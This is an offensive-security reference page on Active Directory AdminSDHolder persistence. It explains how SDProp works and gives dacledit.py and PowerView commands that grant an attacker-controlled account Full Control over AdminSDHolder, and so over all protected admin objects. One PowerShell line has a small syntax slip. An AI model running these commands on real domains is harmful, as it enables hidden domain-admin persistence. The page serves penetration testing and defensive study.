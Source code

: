 # AdminSDHolder

## Theory

AdminSdHolder protects domain objects against permission changes. "AdminSdHolder" either refers to a domain object, a "worker code" or an operation depending on the context.

The operation consists in the PDC (Principal Domain Controller) Emulator restoring pre-set permissions for high-privilege users every 60 minutes. Understanding what DACLs/ACEs are and how to abuse them is a requirement to the understanding of this persistence technique (see [Access Controls abuse](broken-reference)).

The operation is conducted by a "worker code" called **SDProp** (Security Descriptor propagator).

SDProp propagates AdminSdHolder's DACL to every protected object every 60 minutes if their DACL is different.

The AdminSdHolder object is located at `CN=AdminSdHolder,CN=SYSTEM,DC=DOMAIN,DC=LOCAL`. For instance, the default AdminSdHolder object's DACL contains the following.

* Authenticated Users: **Read**
* SYSTEM: **Full Control**
* Administrators: **Modify**
* Domain Admins: **ReadAndExecute**
* Enterprise Admins: **ReadAndExecute**

The default protected objects are the following.

* members (possibly nested) of the following groups: `Account Operators`, `Administrators`, `Backup Operators`, `Domain Admins`, `Domain Controllers`, `Enterprise Admins`, `Print Operators`, `Read-only Domain Controllers`, `Replicator`, `Schema Admins`, `Server Operators`
* the following users: `Administrator`, `krbtgt`

{% hint style="info" %}
When talking about AdminSdHolder, the **AdminCount** attribute is usually mentioned. This attribute is automatically set on an object when adding it to a protected group. Originally, the purpose was to improved SDProp's performance. AdminCount cannot be used for malicious purposes and is now mainly informative.
{% endhint %}

## Practice

Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL.

Let's say an attacker adds the following ACE to AdminSdHolder's DACL: `attackercontrolleduser: Full Control`.

At the next run of SDProp, `attackercontrolleduser` will have a `GenericAll` privilege over all protected objects (Domain Admins, Domain Controllers, and so on).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

:warning: _At the time of writing, May 2nd 2022, the_ [_Pull Request (#1291)_](https://github.com/SecureAuthCorp/impacket/pull/1291) _is still pending._

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```

AdminSdHolder's DACL can then be inspected with the same utility.

```bash
dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```
{% endtab %}

{% tab title="Windows" %}
This can be done in PowerShell with `Add-DomainObjectAcl` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module.

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All
```

AdminSdHolder's DACL can then be inspected with `Get-DomainObjectAcl`.

```powershell
# Inspect all AdminSdHolder's DACL
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

# Inspect specific rights an object has on AdminSdHolder (example with a user)
sid = Get-DomainUser "someuser" | Select-Object -ExpandProperty objectsid
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq $sid}
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=1906" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/askds/five-common-questions-about-adminsdholder-and-sdprop" %}

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence" %}
